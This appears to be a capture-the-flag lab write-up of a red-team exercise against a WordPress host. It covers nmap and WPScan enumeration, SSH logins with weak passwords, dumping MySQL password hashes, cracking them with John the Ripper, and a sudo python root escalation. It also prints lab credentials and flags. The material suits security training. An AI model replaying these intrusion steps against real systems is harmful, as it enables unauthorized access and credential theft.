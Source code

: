 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

![image](Screenshots/NmapScan.JPG "Nmap Scan Results")

```bash

- nmap -sV 192.168.1.110
  - Port 22/TCP Open SSH
  - Port 80/TCP Open HTTP
  - Port 111/TCP Open rcpbind
  - Port 139/TCP Open netbios-ssn
  - Port 445/TCP Open netbios-ssn
 
```

This scan identifies the services below as potential points of entry:
- Target 1
   - List of Exposed Services
   - Port 22/TCP Open SSH
   - Port 80/TCP Open HTTP


The following vulnerabilities were identified on each target:
- Target 1
  - allowed remote access usign ssh 
  - User enumeration
  - Weak Passwords 
  - Misconfiguration of priviledges 

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1{b9bbcb33e11b80be759c4e844862482d}`
- **Exploit Used**
   - Used WPScan to enumerate users on the target machine 

![image](Screenshots/WPScan.JPG)
   
- then used ssh to remote access target 1 and logged into micheal's account with an easy to guess password. 
 - Username: michael
 - Password: michael 
 - Commands used: 
   - ssh michael@192.168.1.110 -p22
   - cd ..
   - cd ..
   - cd var/www/html
   - ls
   - nano service.html
   
![image](Screenshots/Flag1.JPG)
    
  - `flag2 {fc3fd58dcdad9ab23faca6e9a36e581c}`
  - **Exploit Used**
    - Same as flag1. A flag2.txt file was found by snooping around in Micheal's account folders
    - Commands used:
     - cd ..
     - cd ..
     - ls
     - cat flag2.txt
      
 ![image](Screenshots/Flag2.JPG)
 
  - flag3 {afc01ab56b50591e7dccf93122770cd2} 
  - flag4 {715dea6c055b9fe3337544932f2941ce}
  - **Exploit Used** 
    - Used credentials from wp-config.php file for MYSQL database, I logged into MYSQL. Flags 3 and 4 were found in the wp_posts tabel in the MYAQL wordpress database   
 
 ![image](Screenshots/Flag3and4.JPG)
 
 - Flag 4 can also also be foud using the following method
   - Use MySQl credentials in the wp-config file located on Micheal's account to log into MySQL. 
   - User hashes were also discovered in the wp_users table of the wordpress database. The password hashes were then copied to the Kali machine in a file called wp_hashes.txt.
        
![MySQL Credentials](Screenshots/MYSQLDatabasePassword.JPG)

![MySQL Access](Screenshots/MYSQLDatabaseAcess.JPG)

- Commands used:
    - mysql -u root -p (password: R@v3nSecurity from the wp-config.php file on michael's account)
    - show databases;
    - use wordpress; 
    - show tables;
    - select * from wp_users;

![MySQL Hashes](Screenshots/MYSQLPasswordHashes.JPG)

 - After dumping the password hashes into a wp_hashes.txt file onto the Kali machine, I used John the Ripper to crack steven's password
 - Command: `john wp_hashes.txt`
 - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then I used sudo -l to check for steven's priviledges which showed that he was allowed to run python commands with out credentials. 
 
 ![Cracked Steven's Hash](Screenshots/JohnCrackedHashSteven.JPG)
 
 ![Steven's Priviledges](Screenshots/StevenPriviledges.png)
 
 - Commands: 
   - ssh steven@192.168.1.110
   - pw:pink84
   - sudo -l
   - sudo python -c 'import os; os.system("bin/bash/")
   - cd /root
   - ls
   - cat flag4.txt
                
![Falg 4](Screenshots/flag4.png)
